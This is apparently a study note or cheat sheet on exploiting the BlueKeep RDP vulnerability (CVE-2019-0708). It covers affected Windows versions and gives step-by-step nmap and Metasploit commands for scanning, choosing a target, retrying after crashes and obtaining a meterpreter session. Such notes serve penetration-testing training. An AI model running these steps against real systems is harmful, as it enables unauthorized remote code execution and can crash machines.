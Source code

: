 # Exploiting RDP: BlueKeep
> This is an inherent vulnerability within RDP that can allow us to gain access via, for example, a meterpreter shell.

## Contents
- [Intro](#)
  - [CVE-2019-0708 - BlueKeep](#)
  - [Problem](#)
  - [Vulnerable Systems](#)
  - [The BlueKeep Exploit](#)
- [Exploit](#)
  - [1. Scan](#)
  - [2. MSF: BlueKeep](#)

## Intro

### CVE-2019-0708 - BlueKeep
- BlueKeep (CVE-2019-0708) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
- The BlueKeep vulnerability was made public by Microsoft in May 2019.
- The BlueKeep exploit takes advantage of a vulnerability in Windows RDP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.

### Problem
- Running arbitrary code and mucking around in kernel memory will likely cause a system crash.

### Vulnerable Systems
- Microsoft released a patch for this vulnerability on 05/14/2019 and has urged companies to patch this vulnerability as soon as possible.
- At the time of discovery, about one million systems worldwide were found to be vulnerabile
- The BlueKeep vulnerability affects multiple versions of Windows:
  - XP, Vista, Win7
  - Windows Server 2008 & R2

### The BlueKeep Exploit
- The BlueKeep vulnerability has various illegitimate PoC (Proof of Concepts) and exploit code could be malicious in nature. It is there recommended to only utilize verified exploit code and modules for exploitation.
- MetaSploit: 
  - **Scanner:** MSF has an auxiliary module that can be used to check if a target system is vulnerable to the BlueKeep exploit.
  - **Exploit:** MSF also also has an exploit module that can be used to exploit the vulnerability on unpatched systems. (Unpatched systems; gain a privileged meterpreter session on the target.)

## Exploit

### 1. Scan
```
nmap -sS -sV -sC -O -T4 -p- [target ip]
```
- Remember: Port 3389 (tcp) is registered for Windows Based Terminal (WBT) and Remote Desktop Protocol (RDP). 

### 2. MSF: BlueKeep
```
service postgresql status|start
msfconsole
> search BlueKeep   (should result in two: the scan and the exploit)
> use [the scanner]
> show and check options (you should only need to set RHOSTS)
> run (and you should get nice happy result back)
```
- If you get a positive result back from the scan, run the exploit...
  - Confirm the default payload is aligned with your target system (change if necessary).
  - You set the RHOSTS and run it (doesn't seem like there is anything else to set).
  - It'll likely fail and give you a warning about setting the target host manually.
  - `> show targets` : This will give you a list of Windows versions you can select to target. Find your target's system, and...
  - `set target [number of target in list]`
  - `run`
- If it fails, the target system will crash. **_And then you need to modify the `groom` size and try it again_**.
- If it works you get a meterpreter session (`sysinfo` should show you the target machine description; `getuid` should show you your privileges).
